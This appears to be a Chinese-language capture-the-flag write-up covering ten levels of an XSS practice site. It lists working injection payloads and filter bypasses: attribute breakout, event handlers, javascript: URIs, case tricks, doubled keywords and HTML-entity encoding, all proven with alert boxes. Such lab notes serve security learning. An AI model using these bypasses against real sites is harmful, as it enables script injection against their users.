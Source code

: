 # test.ctf8笔记
地址 https://test.ctf8.com 
## level1
通过修改url参数，发现页面变化。查看网页源代码。可能是在这个位置直接插入提交的参数。 
url改为
```
http://test.ctf8.com/level1.php?name=<script>alert("1")</script>
```
![level1](/0secure/test.ctf8/level1.png "level1")

## level2
使用
```
<script>alert("1")</script>
```
没有通过，发现该值被插入到了input标签的value属性中
![level2_1](/0secure/test.ctf8/level2_1.png "level2_1")
尝试使用">闭合标签 
```
"><script>alert("1")</script>
```

## level3
使用
```
"><script>alert("1")</script><"
```
![level3_1](/0secure/test.ctf8/level3_1.png "level3_1")
发现在input标签中，无法使用">闭合value属性。所以想到添加一个属性，例如onclick。同时将"双引号修改成'单引号,然后触发onclick事件。使用//来注释掉后面的>。
```
' onclick=alert("1")//
```
![level3_2](/0secure/test.ctf8/level3_2.png "level3_2")

## level4
使用
```
' onclick=alert("1")//
```
![level4_1](/0secure/test.ctf8/level4_1.png "level4_1")
发现value属性未闭合。猜测，在html源代码中，不管写双引号"还是单引号'，最终查看到的网页源代码都是"。所以将'单引号改为"双引号。
```
" onclick=alert("1")//
```
成功添加onclick属性
![level4_2](/0secure/test.ctf8/level4_2.png "level4_2")

## level5
使用
```
" onclick=alert("1")//
```
![level5_1](/0secure/test.ctf8/level5_1.png "level5_1")
发现想要插入的onclick属性变为o_nclick属性。尝试删除掉o。
![level5_2](/0secure/test.ctf8/level5_2.png "level5_2")
逻辑可能为在输入的o后插入_再放回value中。所以尝试使用不带o的a标签 
```
"><a href="javascript:alert('1')">//
```
![level5_3](/0secure/test.ctf8/level5_3.png "level5_3")
成功插入a标签

## level6 
使用
```
"><a href="javascript:alert('1')">//
```
![level6_1](/0secure/test.ctf8/level6_1.png "level6_1")
发现r字母后面被插入_。删除r验证
```
"><a hef="javascript:alert('1')">//
```
![level6_2](/0secure/test.ctf8/level6_2.png "level6_2")
验证成功。尝试通过将R大写来避免插入
```
"><a hRef="javascript:alert('1')">//
```
![level6_3](/0secure/test.ctf8/level6_3.png "level6_3")
成功插入a标签

## level7
使用
```
"><a hRef="javascript:alert('1')">//
```
发现href属性消失,javascript中的script也消失了。
![level7_1](/0secure/test.ctf8/level7_1.png "level7_1")
猜测可能是href和script被替换成了null，使用hrhrefef，即使href被替换了，还能剩下href。
```
"><a hrhrefef="javascrscriptipt:alert('1')">//
```
![level7_2](/0secure/test.ctf8/level7_2.png "level7_2")

## level8
![level8_1](/0secure/test.ctf8/level8_1.png "level8_1")
先输入1，发现输入内容会被插入在href属性里。
![level8_2](/0secure/test.ctf8/level8_2.png "level8_2")
输入javascrscriptipt:alert('1')，发现在r后加入了_下划线，尝试大写输入R绕过也失败。
![level8_3](/0secure/test.ctf8/level8_3.png "level8_3")
将script转化为html实体，绕过过滤 转换工具https://config.net.cn/tools/HtmlEncode.html

## level9
![level9_1](/0secure/test.ctf8/level9_1.png "level9_1")
输入1，发现源代码中提示链接不合法。尝试http//cn.bing.com 
![level9_2](/0secure/test.ctf8/level9_2.png "level9_2")
链接合法。所以此处应该输入网址格式的内容
尝试http://,通过检验，只要输入内容中包含http://即可
![level9_3](/0secure/test.ctf8/level9_3.png "level9_3")
使用
```
http://"> onclick(alert('1'))//
```
发现onclick被加下划线过滤，使用html实体绕过
![level9_4](/0secure/test.ctf8/level9_4.png "level9_4")
```
http://'> &#x006f;&#x006e;&#x0063;&#x006c;&#x0069;&#x0063;&#x006b;(alert('1'))//
```
使用'和"都无法闭合href属性，尝试使用href中加javascript
```
java&#x0073;&#x0063;&#x0072;&#x0069;&#x0070;&#x0074;:alert("http://")
```
![level9_5](/0secure/test.ctf8/level9_5.png "level9_5")
发现双引号被过滤，将双引号换成单引号，通过

## level10
发现源代码表单中有三个input，尝试通过url增加参数，只有t_sort的value改变
![level10_1](/0secure/test.ctf8/level10_1.png "level10_1")
通过type="text"将该输入框调成可见，同时增加onclick属性，通过
```
http://test.ctf8.com/level10.php?t_sort=" type="text" onclick="alert('1')"
```
![level10_2](/0secure/test.ctf8/level10_2.png "level10_2")
